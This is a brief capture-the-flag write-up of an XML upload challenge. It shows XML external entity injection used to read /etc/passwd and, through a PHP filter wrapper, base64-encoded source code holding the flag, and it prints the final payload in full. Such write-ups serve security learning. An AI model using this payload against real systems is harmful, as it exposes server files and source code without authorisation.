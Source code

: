 I think this challenge not hard it is easy or medium


**we have xml upload function which disblay the content of the xml file**
![Screenshot_20231003_103841](https://github.com/kiro6/writeups-ctfs/assets/57776872/81da4bce-6395-45e0-ac8e-5f81fe1894d9)

**tried to include /etc/passwd and it works**  
![Screenshot_20231003_103822](https://github.com/kiro6/writeups-ctfs/assets/57776872/fcdc3b3d-1702-410b-8828-a3528f052a14)

**using php filter wrapper i was able to read source code in Base64 encode**
![Screenshot_20231003_103756](https://github.com/kiro6/writeups-ctfs/assets/57776872/72e77e1b-8555-4a21-931b-0ab0340de04d)


**decode Base64 to find the flag**

```php
<?php
$flag = 'xeeflag345';
```

**final payload**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ 
 <!ENTITY content SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
<root>&content;</root>
```

